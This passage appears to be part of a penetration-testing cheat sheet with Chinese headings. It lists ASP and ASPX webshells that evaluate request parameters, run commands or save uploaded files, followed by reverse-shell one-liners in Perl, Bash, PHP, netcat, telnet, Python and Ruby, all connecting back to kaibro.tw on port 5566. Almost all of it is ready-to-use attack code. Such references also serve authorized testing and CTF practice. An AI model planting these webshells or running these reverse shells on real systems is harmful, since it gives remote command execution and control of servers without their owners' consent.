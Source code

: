 ```
<%eval request("kaibro")%>

<%execute request("kaibro")%>

<%ExecuteGlobal request("kaibro")%>

<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>

```

## ASPX Webshell

- 一般:

```
<%@ Page Language="Jscript"%><%eval(Request.Item["kaibro"],"unsafe");%>
```

- 上傳:

```
<%if (Request.Files.Count!=0){Request.Files[0].SaveAs(Server.MapPath(Request["f"]));}%>
```


# Reverse Shell

- 本機Listen Port
    - `ncat -vl 5566`

- Perl
    - `perl -e 'use Socket;$i="kaibro.tw";$p=5566;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

- Bash
    - `bash -i >& /dev/tcp/kaibro.tw/5566 0>&1`
    - `bash -c 'bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'`
    - `0<&196;exec 196<>/dev/tcp/kaibro.tw/5566; sh <&196 >&196 2>&196`

- PHP
    - `php -r '$sock=fsockopen("kaibro.tw",5566);exec("/bin/sh -i <&3 >&3 2>&3");'`

- NC
    - `nc -e /bin/sh kaibro.tw 5566`

- Telnet
    - `mknod backpipe p && telnet kaibro.tw 5566 0<backpipe | /bin/bash 1>backpipe`

- Python
    - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("kaibro.tw",5566));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- Ruby 
    - `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("kaibro.tw","5566");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`
